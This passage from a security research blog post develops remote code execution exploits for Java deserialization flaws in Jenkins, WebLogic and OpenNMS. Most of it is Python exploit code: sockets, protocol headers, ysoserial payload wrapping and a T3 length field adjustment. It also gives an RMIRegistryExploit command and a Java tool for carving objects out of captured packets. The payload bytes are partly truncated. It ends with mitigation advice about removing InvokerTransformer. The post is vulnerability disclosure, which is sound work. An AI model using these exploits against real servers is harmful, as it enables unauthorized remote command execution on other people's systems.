00000056  6d 63 75 51 32 46 77 59  57 4a 70 62 47 6c 30 65 mcuQ2FwY WJpbGl0e
00000066  51 41 41 41 41 41 41 41  41 41 42 41 67 41 42 53 QAAAAAAA AABAgABS
00000076  67 41 45 62 57 46 7a 61  33 68 77 41 41 41 41 41 gAEbWFza 3hwAAAAA
00000086  41 41 41 41 50 34 3d                             AAAAP4=
```

To slightly complicate matters, we may also need to send the rest of that second packet, all the stuff that comes after the base64, so that Jenkins will behave correctly.

#### PYTHON EXPLOIT

Let’s break this down a few lines at a time. I won’t be pasting the full payload into the code because it takes too much space, see [GitHub](https://github.com/foxglovesec) for running code.

First, we need to find out what port Jenkins CLI is running on on our target machine, the following code makes an HTTP request and reads the appropriate header that has that information in the response into the variable “cli_port”:

```
#!/usr/bin/python
 
#usage: ./jenkins.py host port /path/to/payload
import socket
import sys
import requests
import base64
 
host = sys.argv[1]
port = sys.argv[2]
 
#Query Jenkins over HTTP to find what port the CLI listener is on
r = requests.get('http://'+host+':'+port)
cli_port = int(r.headers['X-Jenkins-CLI-Port'])
```

Next, we need to make a TCP connection to that port on the remote host so we can send our payload:

```
#Open a socket to the CLI port
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (host, cli_port)
print 'connecting to %s port %s' % server_address
sock.connect(server_address)
```

Finally we can get started. Remember that first packet in the stream we saw in wireshark that initiated the CLI protocol? Let’s send that to the remote server and read it’s response, it responds with 2 packets, so we’ll call “recv” twice:

```
# Send headers
headers='\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74'
print 'sending "%s"' % headers
sock.send(headers)
 
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
 
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
```

You might be wondering where all that “\x00\x14” stuff came from. I just copied it out of Wireshark and used some magic keyboard shortcuts in SublimeText to cut out the middle column of hex, I’m going to do that with the payloads too. This lets us send raw, unadulterated binary data to the server.

Next we need to construct our payload:

```
payloadObj = open(sys.argv[3],'rb').read()
payload_b64 = base64.b64encode(payloadObj)
payload='\x3c\x3d\x3d\x3d\x5b\x4a\x45\x4e\x4b\x49\x4e\x53\x20\x52\x45\x4d\x4f\x54\x49\x4e\x47\x20\x43\x41\x50\x41\x43\x49\x54\x59\x5d\x3d\x3d\x3d\x3e'+payload_b64+'\x00\x00\x00\x00\x11\x2d\xac..........
```

The variable “payloadObj” is just the binary generated by the “ysoserial” tool. I have this as the third argument to the script. I then base64 encode this. Remember that the object in the TCP stream we saw was base64 encoded.

Next we construct the payload by concatenating the first set of bytes, which is actually just “<===[JENKINS REMOTING CA PACITY]===>” in hex, with the base64’d payload. Finally we contactenate ALL of that with the remainder of the bytes from the packet we saw in the TCP stream, these were just copied/pasted from Wireshark.

Finally, we fire that payload off at the Jenkins server:

```
print 'sending payload...'
'''outf = open('payload.tmp','w')
outf.write(payload)
outf.close()'''
sock.send(payload)
```

And we confirm the the file exits at /tmp/pwned!

```
breens@us-l-breens:~$ ls /tmp/pwned
/tmp/pwned
```

## Exploit 4 – WebLogic

WebLogic was a bit of a headache but really interesting. To be honest, we see it less often in the wild, but it is out there.

I’m not very familiar with WebLogic. The exploit runs against the default install on port 7001 – the default and only listening port. WebLogic is kind of cool because it proxies all requests through this port, HTTP, SNMP, T3, and a few other protocols. Depending what protocol it detects it as, it routes it to the right place.

With that said, it’s possible that this vulnerability could be used against WebLogic servers on the Internet due to the fact that it’s unlikely a firewall will get in your way.

### Vulerability Detection

For anyone who has actually read this far, congratulations, I think you can guess what I’m about to do.

First I grep for the vulnerable classes to see if WebLogic comes bundled with them:

```
root@us-l-breens:/opt/OracleHome# grep -R InvokerTransformer .
Binary file ./oracle_common/modules/com.bea.core.apache.commons.collections.jar matches
```

Looks like it’s there. Interestingly they renamed the jar file, so if you were just looking for “commons-collections.jar” you might not have found it.

Next we need to find an entry point where we can send serialized objects. I’ve had pretty good luck monitoring the traffic coming from commandline tools so far, so why not try it again.

Just fire up wireshark to watch the traffic, and then run the command to stop the server, I purposely typed the wrong password to make sure we aren’t cheating:

```
root@us-l-breens:/opt/OracleHome/user_projects/domains/base_domain/bin# ./stopWebLogic.sh 
Stopping Weblogic Server...
 
Initializing WebLogic Scripting Tool (WLST) ...
 
Welcome to WebLogic Server Administration Scripting Shell
 
Type help() for help on available commands
 
Please enter your username :weblogic
Please enter your password :
Connecting to t3://us-l-breens:7001 with userid weblogic ...
This Exception occurred at Thu Nov 05 18:32:46 EST 2015.
javax.naming.AuthenticationException: User failed to be authenticated. [Root exception is java.lang.SecurityException: User failed to be authenticated.]
Problem invoking WLST - Traceback (innermost last):
  File "/opt/OracleHome/user_projects/domains/base_domain/shutdown-AdminServer.py", line 3, in ?
  File "<iostream>", line 19, in connect
  File "<iostream>", line 553, in raiseWLSTException
WLSTException: Error occurred while performing connect : User failed to be authenticated. : User failed to be authenticated. 
Use dumpStack() to view the full stacktrace :
 
Done
Stopping Derby Server...
```

Lets take a look at what that generated in Wireshark:

[](https://foxglovesecurity.files.wordpress.com/2015/10/weblogic-dump.png)

Somewhere about halfway down in that screenshot, we see the magic bytes “ac ed 00 05”.

### Exploit Development

Similar to Jenkins, we’re going to have to wrap our payload in some magic. WebLogic is using the “T3” protocol. The T3 protocol, just like HTTP can transport arbitrary data, and in this case it is carrying serialized Java objects.

Unlike HTTP it’s not very well documented and is a binary protocol, so is extremely finicky. I could lie to you and say this took me 15m to figure out, but it actually took a few hours.

#### FIRST ATTEMPT

Looking at the screenshot of the hex dump above, the first packet is pretty easy to replicate, we can just copy the bytes right out of Wireshark and paste them into a Python script, no problem. WebLogic will then respond with the packet highlighted in blue, meaning it’s ready for us to fire over the payload.

Things now get a bit messy. Unlike Jenkins, we don’t have a nice clean place to plug a base64 payload into the binary stream.

A naive but good first attempt would be to copy all the bytes in the second packet before “ac ed 00 05” (this is the start of their serialized object), concatenate our payload onto the end of that, and send it over. The idea here is that the beginning part of the packet doesn’t need to change to accomodate our payload.

Unfortunately this wont quite work. What we need to do is insert our payload into packet without mucking up the T3 protocol that is wrapping the Java object.

#### OBJECT CARVING

The first thing we need to do is identify where the objects in the packet begin and end. Right now I know that all Java objects begin with “ac ed 00 05”, but this packet consists of more than just Java objects.

To accomplish this, I wrote the following java code:

```
import java.util.Base64;
import java.io.InputStream;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.io.OptionalDataException;
import java.io.StreamCorruptedException;
import java.util.Arrays;
 
public class DecodeObject{
    public static void main(String args[]) throws Exception{
        int skip=0;
        int remainder = 0;
        String b64 = args[0];
        byte[] bytes = Base64.getDecoder().decode(b64);
        ByteArrayInputStream bis = new ByteArrayInputStream(bytes);
        int origSize = bis.available();
        System.out.println("Data Length: "+origSize);
        Object o = null;
        while(o == null){
            try{
                bis.reset();
                bis.skip(skip);
                ObjectInputStream ois = new ObjectInputStream(bis);
                o = ois.readObject();
                 
                System.out.println("Object found...");
                System.out.println(o.getClass().getName());
                System.out.println("Bytes skipped: "+skip);
                System.out.println("Bytes left: "+bis.available());
                skip = origSize - bis.available();
            }
            catch (StreamCorruptedException ode){
                skip = skip+1;
                bis.skip(1);
            }
            catch (OptionalDataException ode){
                bis.skip(1);
                skip = skip+1;
            }
            catch (ClassNotFoundException cnf)
            {
                System.out.println("Object found..."+cnf.getMessage());
                System.out.println("Bytes skipped: "+skip);
                System.out.println("Bytes left: "+bis.available());
                skip = origSize - bis.available();
            }
        }
    }
}
```

This code reads base64 encoded data from the commandline and will attempt to locate all of the objects. I copied the interesting packet out of Wireshark, base64 encoded it, and then ran the above code to get the following output:

```
breens@us-l-breens:~/Desktop$ java DecodeObject AAAF9QFlAf//////////AAAAcQAA6mAAAAAYUlE9bFBCMe28Nw2dEVsi2/jvDmamiKsFAnlzcgB4cgF4cgJ4cAAAAAwAAAACAAAAAAAAAAAAAAABAHBwcHBwcAAAAAwAAAACAAAAAAAAAAAAAAABAHAG/gEAAKztAAVzcgAdd2VibG9naWMucmp2bS5DbGFzc1RhYmxlRW50cnkvUmWBV/T57QwAAHhwcgAkd2VibG9naWMuY29tbW9uLmludGVybmFsLlBhY2thZ2VJbmZv5vcj57iuHskCAAlJAAVtYWpvckkABW1pbm9ySQALcGF0Y2hVcGRhdGVJAAxyb2xsaW5nUGF0Y2hJAAtzZXJ2aWNlUGFja1oADnRlbXBvcmFyeVBhdGNoTAAJaW1wbFRpdGxldAASTGphdmEvbGFuZy9TdHJpbmc7TAAKaW1wbFZlbmRvcnEAfgADTAALaW1wbFZlcnNpb25xAH4AA3hwdwIAAHj+AQAArO0ABXNyAB13ZWJsb2dpYy5yanZtLkNsYXNzVGFibGVFbnRyeS9SZYFX9PntDAAAeHByACR3ZWJsb2dpYy5jb21tb24uaW50ZXJuYWwuVmVyc2lvbkluZm+XIkVRZFJGPgIAA1sACHBhY2thZ2VzdAAnW0x3ZWJsb2dpYy9jb21tb24vaW50ZXJuYWwvUGFja2FnZUluZm87TAAOcmVsZWFzZVZlcnNpb250ABJMamF2YS9sYW5nL1N0cmluZztbABJ2ZXJzaW9uSW5mb0FzQnl0ZXN0AAJbQnhyACR3ZWJsb2dpYy5jb21tb24uaW50ZXJuYWwuUGFja2FnZUluZm/m9yPnuK4eyQIACUkABW1ham9ySQAFbWlub3JJAAtwYXRjaFVwZGF0ZUkADHJvbGxpbmdQYXRjaEkAC3NlcnZpY2VQYWNrWgAOdGVtcG9yYXJ5UGF0Y2hMAAlpbXBsVGl0bGVxAH4ABEwACmltcGxWZW5kb3JxAH4ABEwAC2ltcGxWZXJzaW9ucQB+AAR4cHcCAAB4/gEAAKztAAVzcgAdd2VibG9naWMucmp2bS5DbGFzc1RhYmxlRW50cnkvUmWBV/T57QwAAHhwcgAhd2VibG9naWMuY29tbW9uLmludGVybmFsLlBlZXJJbmZvWFR085vJCPECAAdJAAVtYWpvckkABW1pbm9ySQALcGF0Y2hVcGRhdGVJAAxyb2xsaW5nUGF0Y2hJAAtzZXJ2aWNlUGFja1oADnRlbXBvcmFyeVBhdGNoWwAIcGFja2FnZXN0ACdbTHdlYmxvZ2ljL2NvbW1vbi9pbnRlcm5hbC9QYWNrYWdlSW5mbzt4cgAkd2VibG9naWMuY29tbW9uLmludGVybmFsLlZlcnNpb25JbmZvlyJFUWRSRj4CAANbAAhwYWNrYWdlc3EAfgADTAAOcmVsZWFzZVZlcnNpb250ABJMamF2YS9sYW5nL1N0cmluZztbABJ2ZXJzaW9uSW5mb0FzQnl0ZXN0AAJbQnhyACR3ZWJsb2dpYy5jb21tb24uaW50ZXJuYWwuUGFja2FnZUluZm/m9yPnuK4eyQIACUkABW1ham9ySQAFbWlub3JJAAtwYXRjaFVwZGF0ZUkADHJvbGxpbmdQYXRjaEkAC3NlcnZpY2VQYWNrWgAOdGVtcG9yYXJ5UGF0Y2hMAAlpbXBsVGl0bGVxAH4ABUwACmltcGxWZW5kb3JxAH4ABUwAC2ltcGxWZXJzaW9ucQB+AAV4cHcCAAB4/gD//gEAAKztAAVzcgATd2VibG9naWMucmp2bS5KVk1JRNxJwj7eEh4qDAAAeHB3RiEAAAAAAAAAAAAJMTI3LjAuMS4xAAt1cy1sLWJyZWVuc6U8r/EAAAAHAAAbWf///////////////////////////////wB4/gEAAKztAAVzcgATd2VibG9naWMucmp2bS5KVk1JRNxJwj7eEh4qDAAAeHB3HQEWYNfJ8RaIywAJMTI3LjAuMS4xpTyv8QAAAAAAeA==
Data Length: 1525
Object found...weblogic.rjvm.ClassTableEntry
Bytes skipped: 118
Bytes left: 1154
Object found...weblogic.rjvm.ClassTableEntry
Bytes skipped: 375
Bytes left: 745
Object found...weblogic.rjvm.ClassTableEntry
Bytes skipped: 784
Bytes left: 196
Object found...weblogic.rjvm.JVMID
Bytes skipped: 1336
Bytes left: 76
Object found...weblogic.rjvm.JVMID
Bytes skipped: 1453
Bytes left: 0
```

Using this output, we can draw a few conclusions. First, in the ONE packet, there are contained 5 Java objects. This matches what I expect, if you look for “ac ed 00 05” in the raw binary, you will find 5 occurences.

More interestingly, we can see the exact location in the binary stream of each object, its beginning and end. For example the first object occupies bytes 118 to (1525-1154) = 371. The second object occupies bytes 375 to (1525-745)=780.

So in theory, if we replace one of these objects with our payload from ysoserial, and don’t muck with any of the other bytes, it should all just work…

#### ONE FINAL DETAIL

Spoiler alert – it won’t just work. The objects are wrapped inside the “T3” protocol. The very first few bytes of the packet in T3 specify the total message length. If we fail to adjust this length, our payload won’t fit into the message, and when Java tries to unserialize it, it will blow up with an “EOFException”, meaning it hit the end of the file before it was done reading.

How did I figure this out? I attached the NetBeans debugger to the WebLogic process. I then decompiled the WebLogic JAR file that contained the class where the EOFException was originating – this is the code where our message is being processed. I fed NetBeans the decompiled source files and used them to step through the running code. In my experience you can fix anything in Java, even in big clunky proprietary products using this methdology.

#### PYTHON EXPLOIT

So let’s put it all together in Python. Obviously I won’t be pasting the full payload since it’s just too large, but the full code can be found on [GitHub](https://github.com/foxglovesec).

First, we need to establish a TCP connection to the target:

```
#!/usr/bin/python
 
#Usage: ./poc.py host port /path/to/payload
import socket
import sys
 
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)
```

Next, if you recall from the packet dump in Wireshark, we have to send a message to tell WebLogic that we want to talk using the T3 protocol. After we send the message, we also need to wait for WebLogic’s response:

```
# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)
 
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
```

Next we need to create and send our payload. This is obviously the tricky part. The payload will be composed in three chunks. The first chunk will be all of the bytes that come before the output of “ysoserial”. I decided to replace the SECOND object in the stream, meaning the first chunk of my payload will contain all the T3 headers, and the first Java object that was in the original data.

The second chunk of the payload will simply be the output of “ysoserial”.

The third chunk will be all of the bytes that came after the second object in the stream.

```
payloadObj = open(sys.argv[3],'rb').read()
payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\x...........
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x...........
print 'sending payload...'
'''outf = open('payload.tmp','w')
outf.write(payload)
outf.close()'''
sock.send(payload)
```

A very important point about the first chunk of the payload. Notice the first 4 bytes “00 00 09 f3”. The “09 f3” is the specification for the TOTAL payload length in bytes. For MY payload if do:

```
>>> len(payload)
2547
```

I get the length 2547, which translates to “9F3” in hex. You might have to adjust this depending on the payload you decide to use. You can easily do this dynamically as well, I’ll leave that as an exercise for the reader :).

If you did everything just right, the “sock.send(payload)” line should fire it off and run your remote command!

## Exploit 5 – OpenNMS through RMI

I mentioned in the beginning of this post that RMI was trivially vulnerable to this. The entire concept of Java RMI is built on object deserialization, if you can see the TCP ports associate with an RMI service open, and that service has the commons library available, you can pop it.

We use OpenNMS as an example here just because we already had it installed and know that it runs RMI. Usually RMI listens on TCP port 1099, so if you’re curious whether your machine or your target is running it, just simply nmap for 1099/TCP or use “lsof -i -P | grep java | grep LISTEN” and look for it.

The exploit in this case didn’t require much effort. The authors of “ysoserial” provide proof of concept with the tool. It can be used as follows:

```
java -cp ysoserial-0.0.1-all.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

Easy as that. This will run “calc.exe” on the target host, assuming RMI is running on port 1099. We confirmed this worked on the latest version of OpenNMS.

## The Fix – Kind of…

Going forward, developers should take this as an example of why it’s not safe to unserialize untrusted data. Unfortunately in the Java world, so much is built on the concept that this is okay, it’s going to take a long time to move away from that.

In the meantime, we’re stuck with putting out the current fire, and that is the commons-collections library. Whatever your application is that you suspect is vulnerable, I suggest spinning it up in a test environment. The first thing you can try is the following:

```
root@us-l-breens:/opt/apache-tomcat-8.0.28# grep -Rl InvokerTransformer .
./webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
```

This identifies any jar or class files that contain the vulnerable library. If you’re particularly brave, you can simply delete all of the associated files and hope for the best. I’d suggest very thorough testing after this procedure.

For those faint of heart, you can be a little more surgical about it. If we examine the two exploits provided by the “ysoserial” tool, we can see that they both rely on the “InvokerTransformer” class. If we remove this class file everywhere it exists, any attempted exploits should fail. Feel free to open up your jar files with your expired copy of Winzip and delete the file at “org/apache/commons/collections/functors/InvokerTransformer.class”.

Again, I would suggest very thorough testing after this procedure, but unless you’re actually using the InvokerTransformer in your code (or something that relies on it), this shouldn’t break anything.